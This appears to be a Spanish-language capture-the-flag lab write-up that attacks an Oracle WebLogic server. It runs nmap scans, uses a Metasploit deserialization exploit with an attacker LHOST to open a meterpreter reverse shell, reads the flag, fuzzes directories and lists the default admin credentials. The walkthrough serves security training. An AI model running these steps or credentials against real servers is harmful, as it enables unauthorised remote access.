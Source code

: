 # Laboratorio: Other Notable Applications 🐱‍👓

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    <img src="./assets/Other/01-Ports.PNG">
</p>

---

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

**Output**
```java
<SNIP>
7001/tcp  open  http          Oracle WebLogic admin httpd 12.2.1.3 (T3 enabled)
|_weblogic-t3-info: T3 protocol in use (WebLogic version: 12.2.1.3)
<SNIP>
```

* La aplicación que se ejecuta es **`WebLogic`**
---
3. En este caso usaremos `Metsploit` para obtener una `shell` 
```
msf6 > use exploit/multi/misc/weblogic_deserialize_badattrval
msf6 exploit(multi/misc/weblogic_deserialize_badattrval) > set RHOSTS [IP]
msf6 exploit(multi/misc/weblogic_deserialize_badattrval) > set LHOST 10.10.14.52
msf6 exploit(multi/misc/weblogic_deserialize_badattrval) > run
meterpreter > shell
```
---
4. Ahora leemos la `flag`
* `C:\Users\Administrator\Desktop>type flag.txt`

**Output:** **`w3b_l0gic_RCE!`**

---
### Extra 🌟
Si hacemos **fuzzing** veremos los siguientes directorios
* `wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://[IP]:7001/FUZZ/`

**Output**
```
000003630:   302        6 L      18 W       305 Ch      "console"
```

Si visitamos `/console` veremos que tenemos un panel de autenticación y las credenciales por defecto son **`weblogic:Welcome1`**

<p align="center">
    <img src="./assets/Other/02-Panel.PNG">
</p>